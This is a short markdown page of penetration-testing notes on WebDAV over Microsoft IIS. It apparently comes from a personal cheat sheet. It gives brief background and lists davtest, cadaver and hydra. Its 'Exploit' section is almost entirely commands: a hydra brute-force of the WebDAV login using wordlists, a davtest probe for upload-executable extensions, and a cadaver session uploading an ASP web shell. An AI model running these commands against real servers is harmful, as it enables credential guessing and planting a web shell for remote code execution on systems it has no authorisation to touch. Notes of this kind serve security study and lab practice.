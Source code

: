 ```yaml
---
title: 'WebDAV'
description: 'Is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.'
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
tag: ['windows', 'webdav']
---
```


## Information

- WebDAV essentially enables a web server to function as a file server for collaborative authoring.

- WebDAV runs on top Microsoft IIS on ports 80/443.

- Implements auth to connecto a WebDAV server.

## Tools

- davtest
- cadaver
- hydra

## Exploit

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/pass.txt target http-get /webdav/
```

Checking for test file execution, which extension can be uploaded for RCE.

```bash
davtest -auth bob:pass123 -url http://target/webdav
```

Inserting our payload.

```bash
cadaver http://target/webdav
Username: bob
Password:

dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
```
